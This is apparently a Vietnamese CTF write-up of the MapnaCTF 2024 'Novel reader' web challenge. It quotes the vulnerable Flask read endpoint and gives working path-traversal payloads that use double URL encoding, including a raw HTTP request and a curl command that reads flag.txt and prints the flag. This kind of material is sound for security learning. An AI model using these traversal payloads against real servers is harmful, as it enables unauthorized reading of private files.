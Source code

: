 ```yaml
---
title: "MapnaCTF 2024 - web"
excerpt: "MAPNA CTF 2024, a beginner-friendly Capture The Flag event, to be held between. Sat, 20 Jan. 2024, 15:00 UTC — Sun, 21 Jan. 2024, 15:00 UTC 💻 "
header:
show_date: true
# classes: wide
toc: true
toc_label: "Content list"
toc_icon: "grav"
toc_sticky: true
header:
  teaser: "https://hackmd.io/_uploads/H1CoYbosp.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/H1CoYbosp.png">
</p>

# Table
```
- Web
  Novel reader: 42 point - 144 solves
  Advanced JSON Cutifier: 59 point - 88 solves
```

# Web
## Novel reader - 44 point
### Description
```
We have many fun novels for ya...
http://3.64.250.135:9000
```

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/mapnactf2024/novel-reader_d78366cb079727a6bd3809219df9bc7835d17fd1.txz)

### Solution

Giao diện web như sau: 
![image](https://hackmd.io/_uploads/ryT0JzCKa.png)

Ứng dụng có 2 chức năng chính là readfile và charge account. Mặc định Mỗi người dùng ban đầu sẽ có 100 Balance và 1 Words Balance.

Trong `list private` của endpoint `/api/list-private-novels` có chứa file 

```
["A-Secret-Tale.txt"]
```

với nội dung có chứa FLAG: 
```
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```

=> Mục tiêu: đọc được file `A-Secret-Tale.txt`

trong `main.py`
```py
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

ở đây ta thấy giá trị truyền vào được đưa vào hàm readFile để đọc và trả về dữ liệu cho người dùng nếu có đủ `words_balance`.

```http://3.64.250.135:9000/api/read/$PAYLOAD_INJEC```

Ở đây ta có thể path travesal vượt qua hàm `unqute` của `urllib.parse` bằng cách url encoding payload `%2e` => `%252f`

tôi đã thử đọc file `A-Secret-Tale.txt` bằng cách này với payload:
```
GET /api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt HTTP/1.1
Host: 3.64.250.135:9000
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://3.64.250.135:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=[REDACTED]
Connection: close
```

tuy nhiên, nó không thành công do chúng ta không có đủ `words_balance`. 

![image](https://hackmd.io/_uploads/S1jdMGRta.png)

payload cuối:
```
/api/read/public/%252e%252e/%252e%252e/flag.txt
```

### Script
```py
curl http://3.64.250.135:9000/api/read/public/%252e%252e/%252e%252e/flag.txt
```

result:
```
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```


